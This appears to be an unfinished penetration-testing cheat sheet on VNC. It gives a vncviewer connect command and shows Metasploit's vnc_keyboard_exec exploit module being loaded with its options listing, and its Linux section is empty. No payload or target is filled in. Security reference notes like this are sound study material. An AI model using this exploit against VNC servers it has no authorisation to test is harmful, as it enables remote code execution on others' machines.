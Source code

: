 # VNC

TODO: Fill this info

`$ vncviewer <IP>:<PORT>`

## 01 - Windows

### 1.1 - Metasploit

```
msf > use exploit/multi/vnc/vnc_keyboard_exec

msf exploit(multi/vnc/vnc_keyboard_exec) > options 

Module options (exploit/multi/vnc/vnc_keyboard_exec):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   PASSWORD                             no        The VNC password
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT               5900             yes       The target port (TCP)
   SSL                 false            no        Negotiate SSL for incoming connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TIME_KBD_DELAY      50               yes       Delay in milliseconds when typing long commands (0 to disable)
   TIME_KBD_THRESHOLD  50               yes       How many keystrokes between each delay in long commands
   TIME_WAIT           20               yes       Time to wait for payload to be executed
   URIPATH                              no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Exploit target:

   Id  Name
   --  ----
   0   VNC Windows / Powershell



View the full module info with the info, or info -d command.

msf exploit(multi/vnc/vnc_keyboard_exec) >
```

## 02 - Linux

---
## References

- [Sending Keystrokes to Your (Virtual) Machines using X, Vnc , Rdp or Native ways](https://web.archive.org/web/20220712164101/https://www.jedi.be/blog/2010/08/29/sending-keystrokes-to-your-virtual-machines-using-X-vnc-rdp-or-native/)